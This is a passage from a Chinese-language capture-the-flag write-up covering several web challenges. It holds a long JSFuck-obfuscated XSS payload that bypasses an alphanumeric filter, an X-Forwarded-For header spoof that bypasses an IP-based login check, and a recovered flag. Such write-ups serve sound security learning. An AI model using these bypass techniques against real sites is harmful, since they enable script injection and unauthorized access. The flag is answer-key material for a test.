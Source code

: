 
#0x07 Base8

XSS第五道题，过滤了A-Za-z0-9，最后用的[JSfuck](http://www.jsfuck.com/)
Payload:

```
    ''){}[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])
    [!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]
    +!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[]
    [(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!
    +[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[]
    )[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[]
    )[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!
    ![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[
    +[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[
    ]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+
    [])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+
    []]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+
    []]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]
    +[+[]]])(
```

   
<hr/>


#0x08 WebSec 1

土屌表示PHP不熟悉，不会SQL更不会注入

<hr/>


#0x09 WebSec 2

直接更改httpheader，加一个：

```
    X-Forwarded-For: 199.101.117.188
```

然后随便用户名密码，即得key

```
    key:{RunNgIs0g@0dK1d}
```

<hr/>
<br/>

#0x0A WebSec 3-6 CrackMe1-4

统统不会。。。坐等大牛Write-up

<hr/>
<br/>

#0x0B Router 1

![](http://evilddog.qiniudn.com/router1.jpg)
